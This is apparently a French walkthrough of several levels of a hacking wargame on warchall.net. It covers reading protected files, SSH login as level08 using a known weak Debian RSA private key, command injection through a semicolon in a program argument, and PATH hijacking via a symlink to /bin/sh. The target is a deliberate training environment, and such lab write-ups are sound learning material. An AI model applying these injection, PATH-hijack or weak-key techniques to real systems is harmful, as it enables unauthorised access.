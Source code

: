 Suivez README.nfo vers votre répertoire personnel, utilisez `cd ~` puis `cd /level/04_kwisatz`, à l'intérieur vous devriez voir un fichier "README.txt".

Et dans README.txt, il y a une consigne qui est de naviguer vers README2.md, qui est encore inaccessible à cause des permissions. Vérifiez les permissions sur README2.md en utilisant `ls -al`, et ajoutez la permission de lecture avec `chmod +r README2.md`

Ouvrez README2.md avec `cat README2.md` pour accéder à la solution



## Niveau 5
Entrez dans le dossier 05_privacy, utilisez `cd /home/level/05_privacy`.

Vérifiez la présence du fichier README.md avec `ls`.
Pour pouvoir avoir l'aperçu du fichier README.md, on va utiliser `ls`.

Ouvrez le fichier README.md avec `cat README.md` pour accéder à la solution.


## Niveau 8 - SSH... Z is sleeping
Dirigez-vous vers le répertoire level 08.
- `cd /home/level/08_sshz`

Affichez tous les fichiers.
- `ls -al #Tous les fichiers appartiennent à level08`

Dans le fichier authorized_keys.backup se trouve une clé RSA de 2048 bits. Utilisez les commandes suivantes pour vérifier les empreintes :
- `ssh-keygen -lf /home/level/08_sshz/backups/authorized_keys.backup  # SHA256`
- `ssh-keygen -l -E md5 -f /home/level/08_sshz/backups/authorized_keys.backup  # MD5`

Téléchargez le fichier tar Debian SSH RSA 2048 x86 depuis ce lien.
Sur Windows, ouvrez PowerShell en tant qu'administrateur

Utilisez SCP pour copier la clé privée vers le serveur :
- `scp -P 19198 /chemin/vers/2bcd07a701e94a0474d77ee4d6d0f806-23669 user@warchall.net:~/`

Assurez-vous que les permissions appropriées sont définies pour la clé privée sur le serveur :
- `chmod 600 ~/2bcd07a701e94a0474d77ee4d6d0f806-23669`

Connectez-vous au serveur en tant que level08 en utilisant la clé privée :
- `ssh -i ~/2bcd07a701e94a0474d77ee4d6d0f806-23669 level08@warchall.net -p 19198`


## Niveau 10 - Choose your PATH
Naviguez vers le répertoire "Choose Your Path".
Exécutez l'exécutable charp avec l'argument fourni.
Consultez le contenu du fichier généré à ~/foo.
`
- `cd /home/level/10_choose_your_path/`
- `./charp "solution.txt ; cat solution.txt > ~/foo"`
- `cat ~/foo`


## Niveau 11 - Choose yout PATH II
Naviguez vers le répertoire "Choose Your Path II".
Créez un lien symbolique vers `/bin/sh à ~/wc.`
Exécutez l'exécutable charp2 avec l'argument fourni.
- `cd /home/level/11_choose_your_path2/`
- `ln -s /bin/sh ~/wc`
- `PATH=~ ./charp2 "/bin/cat solution.txt 1>&2"`
